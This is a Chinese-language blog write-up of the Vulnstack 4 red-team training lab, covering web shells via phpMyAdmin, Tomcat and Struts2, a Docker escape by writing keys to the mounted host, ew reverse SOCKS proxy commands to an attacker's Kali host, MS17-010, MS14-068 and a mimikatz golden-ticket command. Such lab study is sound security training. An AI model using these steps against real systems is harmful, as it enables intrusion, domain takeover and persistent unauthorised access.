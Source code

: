 ```yaml
---
layout:     post
title:    渗透-Vulnstack靶机学习4
subtitle:   Vulnstack靶机学习4
date:       2020-02-22
author:     hmoytx
header-img: img/bg_02.jpg
catalog: true
tags:
    - 域渗透
    - 红队
    - 内网渗透
---
```

# 渗透-Vulnstack靶机学习4

Vulnstack是红日安全团队出品的一个实战环境，本次测试的红日安全 ATT&CK实战系列——红队评估（四）靶场环境，下载地址：[http://vulnstack.qiyuanxuetang.net/vuln/detail/6/](http://vulnstack.qiyuanxuetang.net/vuln/detail/6/)

## Web
三个虚拟机文件，根据说明ubuntu上有三个应用开着，应该是docker的，三个都挺好拿shell的。  
一个是phpmyadmin的包含漏洞。  
![200217_1](/img/200217_phpinfo.png)  
一个是tomcat的。  
![200217_2](/img/200217_tomcat.png)  
直接put写就完事了。  
还有一个st2的。  
![200217_3](/img/200217_st2.jpg)  

## Docker逃逸
尝试试直接用脏牛。可惜不行。    
![200217_4](/img/200217_dockerfree.png)  
回过来看看能不能读写宿主机。  
![200217_5](/img/200217_dockerfree2.jpg)  
那就简单了，可以直接写个密钥上去，然后直接去连接。  
先挂载到docker内。  
![200217_16](/img/200217_mount.png)  
然后写isa。  
![200217_6](/img/200217_key.png)  
这样连上去还不能sudo。  
中间还有些步骤，修改passwd，shadow等文件的图丢了。。有问题的可以自行查阅相关内容。  
最后切换成root即可。  
![200217_7](/img/200217_root.jpg)  

## 内网
### 代理进入
有了ubuntu直接开代理就行，正向反向都行，但是后面在用msf的时候有点问题，meterpreter的session老是断连接，后来犯了就直接不用代理了这里就简单提一下。  
我用的是ew。  
正向代理：  
```
./ew  -s ssocksd -l 39555
```
然后在proxychain配置文件中加上这个sock5代理即可。  
反向代理的话：  
现在kali上执行  
```
ew -s rcsocks -l 39555 -e 39444
```
ubuntu上执行  
```
ew -s rssocks -d kali ip -e 39444
```
然后进入也是加上本地39555这个代理就行了。   
### 内网渗透
知道ip的情况下就不扫描了。  
直接ms17-010打就行了。  
![200217_8](/img/200217_ms17010.jpg)  
返回的是一个system的session。  
收集信息前要进行降权。  
![200217_9](/img/200217_token.jpg)  
直接用impersonate_token "DEMO\douser"或者直接窃取token。  
![200217_10](/img/200217_stealtoken.jpg)  
然后就是信息收集。  
网络配置看一下。  
在域内，demo.com，DNS应该是域控的ip。  
![200217_11](/img/200217_ipconfig.jpg)  
net view一下。  
![200217_12](/img/200217_netview.jpg)  
看下补丁，应该是没有打ms14-068的补丁。  
![200217_13](/img/200217_systeminfo.jpg)  
要利用还要知道域成员douser的密码，这里有两个选择，可以直接system下mimikatz，根据提示还有历史命令信息泄漏，翻了下ubuntu的历史命令，有密码，冲就完事了。  
![200217_14](/img/200217_history.png)  
机器桌面目录下有ms14-068，省的上传了。。。。直接利用。   
![200217_15](/img/200217_ms14-068.jpg)  
然后直接利用桌面的mimikatz导入生成的票据就完事了。  
![200217_17](/img/200217_mimi.jpg)  
然后再用访问域控。  
![200217_18](/img/200217_dir.jpg)  
到这里后面其实就是域维权内容了。因为过来的session实在是太tm脆弱了，后面我就没继续了。  
简单说一下即可。  
通过sc直接在域控上创建服务并且启动，用mimikatz直接导出krbtgt的hash，然后在域成员机器上用mimikatz再去伪造黄金票据就可以了。  
```
mimikatz “kerberos::golden /domain:domain /sid:domain sid /rc4:krbtgt NTLM Hash /user:username /ptt" exit
```
用户名任意。  
就可以在一段时间内维持域内权限了（krbtgt不更新密码即可）。  

## 参考
[https://www.anquanke.com/post/id/179623](https://www.anquanke.com/post/id/179623)  
[https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi](https://payloads.online/archivers/2018-11-30/1#%E9%BB%84%E9%87%91%E7%A5%A8%E6%8D%AEgolden-tickets-msf-kiwi)  
